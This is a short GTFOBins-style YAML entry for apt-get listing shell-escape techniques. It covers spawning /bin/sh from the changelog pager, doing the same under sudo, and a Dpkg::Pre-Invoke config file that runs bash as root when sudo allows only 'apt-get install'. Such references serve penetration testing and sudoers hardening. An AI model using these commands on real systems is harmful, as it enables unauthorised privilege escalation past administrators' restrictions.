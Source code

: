 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        apt-get changelog apt
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo apt-get changelog apt
        !/bin/sh
    - description: 'Sometimes, only some subcommands of `apt-get` are enabled by sysadmin in the sudoers file. When only `apt-get install *` is allowed, you can use:'
      code: |
        echo 'Dpkg::Pre-Invoke {"/bin/bash";};' > test.conf
        sudo apt-get install -c ./test.conf sl
---
```


